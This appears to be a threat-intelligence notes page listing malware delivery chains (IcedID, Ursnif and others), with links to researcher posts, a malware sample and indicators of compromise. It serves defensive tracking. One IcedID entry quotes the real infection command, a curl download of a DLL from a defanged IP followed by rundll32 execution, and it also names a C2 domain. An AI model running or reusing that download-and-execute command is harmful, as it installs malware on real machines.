 
### .zip > .docm > .curl > .dll

[#IcedID](https://twitter.com/hashtag/IcedID?src=hashtag_click) - .zip > .docm > .curl > .dll
https://twitter.com/pr0xylife/status/1565354363765215238



#IcedID - .zip > .docm > .curl > .dll

cmd /c curl http://193.178.210.]58/-o 
c:\ProgramData\MH4SG6MYDDyi.dll && rundll32 c:\ProgramData\MH4SG6MYDDyi.dll,#1

https://bazaar.abuse.ch/sample/133245a337b1703f3940d8ca3907c9bb7ec6b47701257766e70d7c9318571ce5/

c2
http://donorcabr.]com/

IOC's
https://github.com/pr0xylife/IcedID/blob/main/icedID_01.09.2022.txt


### EML>.tar.gz>.exe

EML>.tar.gz>.exe
https://twitter.com/Tac_Mangusta/status/1709107786078982211



### EML>zip pw>.url>SMB>zip>vbs>certutil

EML>zip pw>.url>SMB>zip>vbs>certutil>[#Ursnif](https://twitter.com/hashtag/Ursnif?src=hashtag_click)
https://twitter.com/JAMESWT_MHT/status/1706919214588506202




### pec > .zip > .url > .exe (smb)

pec > .zip > .url > .exe (smb)
https://twitter.com/Tac_Mangusta/status/1703716708236570650


### Mail(stolen old conv) > .zip > .js > .7z (psw) > .dll(key)

Mail(stolen old conv) > .zip > .js > .7z (psw) > .dll(key)
https://twitter.com/Tac_Mangusta/status/1702247512529060244

### USB > .lnk > .ps1 > .exe

USB > .lnk > .ps1 > .exe
https://twitter.com/Tac_Mangusta/status/1678185981344731137

### LZH > EXE

LZH > EXE
https://twitter.com/reecdeep/status/1696539420219056590

